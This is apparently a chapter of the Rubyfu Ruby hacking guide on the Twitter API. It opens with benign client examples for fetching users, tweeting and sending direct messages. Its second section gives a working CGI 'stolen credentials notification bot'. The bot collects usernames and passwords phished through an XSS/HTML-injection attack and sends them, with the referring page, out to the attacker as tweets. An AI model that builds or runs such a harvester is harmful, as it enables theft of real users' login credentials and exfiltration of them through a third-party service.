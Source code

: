 # Twitter API
Dealing with twitter API's s really useful due information gathering, taxonomy and social engineering. However, you have to have some keys and tokens in-order to interact with twitter APIs. To do so, please refer to the official [twitter development page][1].

- To install twitter API
```
gem install twitter
```

## Basic Usage
**rubyfu-tweet.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'twitter'
require 'pp'

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end

puts client.user("Rubyfu")                   # Fetch a user
puts client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
puts client.follow("Rubyfu")                 # Follow User (as the authenticated user)
puts client.followers("Rubyfu")              # Fetch followers of a user
puts client.followers                        # Fetch followers of current user 
puts client.status(649235138585366528)       # Fetch a particular Tweet by ID
puts client.create_direct_message("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user
```
![](webfu__twitterAPI1.png)


**Your turn**, tweet to @Rubyfu using above example. Tweet your code and output to **@Rubyfu**.

## Building Stolen Credentials notification bot
We're exploiting an XSS/HTML injection vulnerability and tricking users to enter there Username and Password. The idea is, We'll make a [CGI script][2] that takes that stolen credentials then tweet these credentials to us as notification or log system
```ruby
#!/usr/bin/ruby -w                                                                 

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Refere!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```






[1]: https://dev.twitter.com/oauth/overview
[2]: http://rubyfu.net/content/module_0x4__web_kungfu/index.html#cgi
